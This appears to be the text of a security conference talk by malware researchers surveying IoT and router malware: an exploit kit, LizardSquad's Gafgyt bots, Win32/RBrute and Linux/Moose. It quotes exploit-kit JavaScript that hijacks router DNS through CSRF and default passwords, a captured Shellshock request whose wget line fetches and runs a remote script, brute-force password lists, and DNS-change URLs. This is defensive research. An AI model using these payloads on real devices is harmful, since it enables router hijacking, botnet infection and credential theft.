

source: Malwarebytes
.
IoT or Internet of {Things,Threats}
Thomas (@nyx__o)
Malware Researcher at ESET
CTF lover
Open source contributor
Olivier (@obilodeau)
Security Researcher at GoSecure
Previously
Malware Researcher at ESET
Infosec lecturer at ETS University in Montreal
Infosec developer, network admin, linux system admin
Co-founder Montrehack (hands-on security workshops)

VP Training and Hacker Jeopardy at NorthSec
Agenda
About IOT
Exploit Kit
LizardSquad
Win32/RBrute
Linux/Moose
Conclusion
Why Does IoT Security Matters?
Why It Matters?
Hard to detect
Hard to remediate
Hard to fix
Low hanging fruit for bad guys
A Real Threat
Several cases disclosed in the last few years
A lot of same-old background noise (DDoSer)
Things are only getting worse
Wait, is IoT malware really about things?
No. Not yet.
So what kind of malware can we find on such insecure devices?
Exploit Kit Targeting Routers
Exploit Kit Definition
Automate exploitation
Targets browsers
Common exploits are Adobe and Java

Exploit Kit in Action
Exploit Kit in Action (cont.)
Cross-Site Request Forgery (CSRF)
Uses default credential (HTTP)
Changes primary Domain Name System (DNS)
Exploit Kit CSRF
<html><head><script type="text/javascript" src="e_x.js"></script></head>
<body>
<iframe id="iframe" sandbox="allow-same-origin" style="display: none"></iframe>
<script language="javascript">
var pDNS = "37.139.50.45";
var sDNS = "8.8.8.8";
var passlist=["123456789","root","admin","qwerty","123456789","baseball","football","monkey","letmein","abc123","tata","<eopl>"];Exploit Kit How-To
function e_belkin(ip){
var method = "POST";
var url = "";
var data ="";
url="http://"+ip+"/cgi-bin/login.exe?pws=admin";
exp(url, "", "GET");
url="http://"+ip+"/cgi-bin/setup_dns.exe";
data="dns1_1="+pDNS.split('.')[0]+"&dns1_2="+pDNS.split('.')[1]+"&dns1_3="+pDNS.split('.')[2]+"&dns1_4="+pDNS.split('.')[3]+"&dns2_1="+sDNS.split('.')[0]+"&dns2_2="+sDNS.split('.')[1]+"dns2_3="+sDNS.split('.')[2]+"&dns2_4="+sDNS.split('.')[3]+"&dns2_1_t="+sDNS.split('.')[0]+"&dns2_2_t="+sDNS.split('.')[1]+"dns2_3_t="+sDNS.split('.')[2]+"&dns2_4_t="+sDNS.split('.')[3]+"&auto_from_isp=0";
exp(url, data, method);
}Exploit Kit continually improved
Obfuscation
Exploits for CVEs
Exploit Kit - CVE
CVE-2015-1187
D-Link DIR-636L
Remote Command Injection
Incorrect Authentication
Recap
Exploit Kit
Change DNS
Fileless
What Can They Do?
Universal XSS on all HTTP sites fetching Javascript on a 3rd party domain
Phishing
Adfraud
You Said Adfraud?
Injection via Google Analytics domain hijacking
Javascript runs in context of every page
Exemple of Google Analytics Substitution
'adcash': function() {
var adcash = document.createElement('script');
adcash.type = 'text/javascript';
adcash.src = 'http://www.adcash.com/script/java.php?option=rotateur&r=274944';
document.body.appendChild(adcash);
},LizardSquad
Who are LizardSquad?
Black hat hacking group
Lots of Distributed Denial of Service (DDoS)
DDoS PlayStation Network and Xbox live in Christmas 2014
Bomb threats
DDoS for hire (LizardStresser)
CYBER-RASCALS!
The Malware
Linux/Gafgyt
Linux/Powbot, Linux/Aidra, Kaiten, …
Probably others, as source is public
Caracteristics
Telnet scanner
Flooding: UDP, TCP, Junk and Hold
Multiple architectures: SuperH, MIPS, ARM, x86, PowerPC, …
Some Server Code
"*****************************************"
"* WELCOME TO THE BALL PIT *"
"* Now with *refrigerator* support *"
"*****************************************"Attack Vectors
Shellshock
SSH credentials brute-force
Telnet credentials brute-force
Exemple of Shellshock Attempt
GET /cgi-bin/authLogin.cgi HTTP/1.1
Host: 127.0.0.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
User-Agent: () { goo;}; wget -qO - http://o.kei.su/qn | sh > /dev/null 2>&1 &Other Variants
HTTPS support
CloudFlare protection bypass
Sophisticated?
LizardStresser database was leaked
Passwords in plaintext…
IRC Command and Control
------- Day changed to 08/25/15 -------
09:32 -!- There are 0 users and 2085 invisible on 1 servers
09:32 -!- 42 unknown connection(s)
09:32 -!- 3 channels formed
09:32 -!- I have 2085 clients and 0 servers
09:32 -!- 2085 2119 Current local users 2085, max 2119
09:32 -!- 2085 2119 Current global users 2085, max 2119Bot Masters
12:56 -!- Topic for #Fazzix: 1k
12:56 -!- Topic set by void <> (Wed Aug 19 09:58:45 2015)
12:56 [Users #Fazzix]
12:56 [~void] [~void_] [@bob1k] [@Fazzix] [ Myutro]·
12:56 -!- Irssi: #Fazzix: Total of 5 nicks (4 ops, 0 halfops, 0 voices, 1 normal)
12:56 -!- Channel #Fazzix created Mon Aug 17 03:11:29 2015
12:56 -!- Irssi: Join to #Fazzix was synced in 2 secs
Win32/RBrute (cont.)
Tries to find administration web pages (IP)
Scan and report
Router model is extracted from the realm attribute of the HTTP authentication
Win32/RBrute Targets
$ strings rbrute.exe
[...]
TD-W8901G
TD-W8901GB
TD-W8951ND
TD-W8961ND
TD-8840T
TD-W8961ND
TD-8816
TD-8817
TD-W8151N
TD-W8101G
ZXDSL 831CII
ZXV10 W300
[...]
DSL-2520U
DSL-2600U
DSL router
TD-W8901G
TD-W8901G 3.0
TD-W8901GB
TD-W8951ND
TD-W8961ND
TD-8840T
TD-8840T 2.0
TD-W8961ND
TD-8816
TD-8817 2.0
TD-8817
TD-W8151N
TD-W8101G
ZXDSL 831CII
[...]Win32/RBrute Bruteforce
Logins:
admin,support,root&AdministratorPassword list retrieved from the CnC
<empty string>
111111
12345
123456
12345678
abc123
admin
Administrator
consumer
dragon
gizmodo
iqrquksm
letmein
lifehack
monkey
password
qwerty
root
soporteETB2006
support
tadpassword
trustno1
we0Qilhxtx4yLGZPhokYWin32/RBrute Changing DNS
http://<router_IP>/&dnsserver=<malicious_DNS>&dnsserver2=8.8.8.8&Save=Save
http://<router_IP>/dnscfg.cgi?dnsPrimary=<malicious_DNS>&dnsSecondary=8.8.8.8&dnsDynamic=0&dnsRefresh=1
http://<router_IP>/Enable_DNSFollowing=1&dnsPrimary=<malicious_DNS>&dnsSecondary=8.8.8.8Win32/RBrute Next Step
Simple redirection to fake Chrome installer (facebook or google domains)
Install (user action required)
Change primary DNS on the computer (via key registry)
HKLM/SYSTEM/ControlSet001/Services/Tcpip/Parameters/Interfaces/{network interface UUID}/NameServer = “8.8.8.8”Why reinfect someone by RBrute and not Sality?
Win32/RBrute In A Coffee Shop
Infected user
Infected router
Everyone is infected
RBrute and Sality

Linux/Moose
Linux/Moose
November 2014: Discovered by ESET
Early 2015: Thoroughly reverse-engineered
May 2015: Paper published
Moose DNA
aka Malware description
Hang tight, this is a recap
Linux/Moose…
Named after the string "elan" present in the malware executable

Elan…?
The Lotus Elan

Elán
The Slovak rock band (from 1969 and still active)
Network Capabilities
Pivot through firewalls
Home-made NAT traversal
Custom-made Proxy service
only available to a set of whitelisted IP addresses
Remotely configured generic network sniffer
Attack Vector
Telnet credentials bruteforce
Wordlist of 304 user/pass entries sent by server
Compromise Protocol
Anti-Analysis
Statically linked binary stripped of its debugging symbols
Hard to reproduce environment required for malware to operate
Misleading strings (getcool.com)
No x86 variant!
Moose Herding
The Malware Operation
Via C&C Configuration
Network sniffer was used to steal HTTP Cookies
Twitter:
twll,twidFacebook:
c_userInstagram:
ds_user_idGoogle:
SAPISID,APISIDGoogle Play / Android:
LAY_ACTIVE_ACCOUNTYoutube:
LOGIN_INFO
Via Proxy Usage Analysis
Targeted social networks
An Example

An Example (cont.)
An Example (cont.)

An Example (cont.)

Anti-Tracking
Proxy access is protected by an IP-based Whitelist
So we can’t use the proxy service to evaluate malware population
Blind because of HTTPS enforced on social networks
Whitepaper Impact
Few weeks after the publication the C&C servers went dark
After a reboot, all affected devices should be cleaned
But victims compromised via weak credentials, so they can always reinfect
Alive or dead?

Yay! Except…

Linux/Moose Update
New sample in September
New proxy service port (20012)
New C&C selection algorithm
Few differences
Still under scrutiny
Stay tuned
But more on this botnet in another presentation!
Conclusion
Embedded malware
Not yet complex
Tools and processes need to catch up
A low hanging fruit
Prevention simple
Prevention
Prevention
Change default passwords!
even of your friends' routers!
until the next shellshock …
Thanks!
Thank you!
Special thanks to ESET Canada Research Team
Questions?
@obilodeau
@nyx__o